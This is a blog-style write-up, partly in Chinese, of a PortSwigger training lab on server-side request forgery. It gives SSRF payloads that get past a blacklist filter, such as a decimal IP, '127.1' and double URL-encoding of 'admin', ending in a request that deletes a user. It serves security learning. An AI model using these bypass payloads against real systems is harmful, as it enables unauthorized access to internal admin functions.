 ```yaml
---
layout: post
title: "SSRF with blacklist-based input filter"
description: ""
date: 2023-07-11
categories:
  - PortSwigger_Lab
  - PortSwigger_SSRF
author: ""
tags: ['PortSwigger_Lab', 'SSRF']
---
```






# SSRF with blacklist-based input filter


```
This lab has a stock check feature which fetches data from an internal system.

To solve the lab, change the stock check URL to access the admin interface at `http://localhost/admin` and delete the user `carlos`.

The developer has deployed two weak anti-SSRF defenses that you will need to bypass.



該實驗室具有庫存檢查功能，可從內部系統獲取數據。

為了解決實驗室問題，更改庫存檢查 URL 以訪問 `http://localhost/admin` 的管理界面並刪除用戶 `carlos`。

開發人員部署了兩個需要繞過的弱反 SSRF 防禦。


```



### IPv4 to IP Decimal Conversion
轉換IP 
```

127.0.0.1 -> 2130706433

```


BP 抓包

```http

POST /product/stock HTTP/1.1
Host: 0ab6002204ef60cec0e939ca006f005d.web-security-academy.net
Cookie: session=DQRdO1snv2jac4xZCnM2HfKbFQTc78Hr
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:105.0) Gecko/20100101 Firefox/105.0
Accept: */*
Accept-Language: zh-TW,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://0ab6002204ef60cec0e939ca006f005d.web-security-academy.net/product?productId=2
Content-Type: application/x-www-form-urlencoded
Content-Length: 107
Origin: https://0ab6002204ef60cec0e939ca006f005d.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D2%26storeId%3D1

```

```
stockApi=http://stock.weliketoshop.net:8080/product/stock/check?productId=2&storeId=1

```


修改
```
stockApi=http://localhost/admin
```


這裡我們用localhost
卻回傳安全原因封鎖 

```http

HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 51

"External stock check blocked for security reasons"
```



digital ip 修改 失敗
```
stockApi=http://2130706433/admin
```

url編碼 失敗
```
stockApi=http://2130706433/%61dmin
```


double url 有出現 Client Error: Forbidden 失敗
```
stockApi=http://2130706433/%25%36%31dmin



resposne:
Client Error: Forbidden
```


double url 失敗
```
stockApi=http://2130706433/%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65



resposne:
"Invalid external stock check url 'Illegal character in scheme name at index 8: stockApi=http://2130706433/%61%64%6d%69%6e'"

```


IP 另類解析
https://www.quora.com/Is-127-1-a-valid-IP-address

```
127.1 = 127.0.0.1

127.0.1 = 127.0.0.1

127.1.0 = 127.1.0.0

```




失敗
```
stockApi=http://127.1/admin
```


url編碼 失敗
```
stockApi=http://127.1/%61dmin
```


全部double url 失敗
```

stockApi=http://127.1/%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65




"Invalid external stock check url 'Illegal character in scheme name at index 8: stockApi=http://127.1/%61%64%6d%69%6e
'"

```


只double  a 字元
```
stockApi=http://127.1/%25%36%31dmin
```


成功 出現刪除畫面F12
```
<a href="/admin/delete?username=carlos">Delete</a>
```


修改
```
stockApi=http://127.1/%25%36%31dmin/delete?username=carlos
```


成功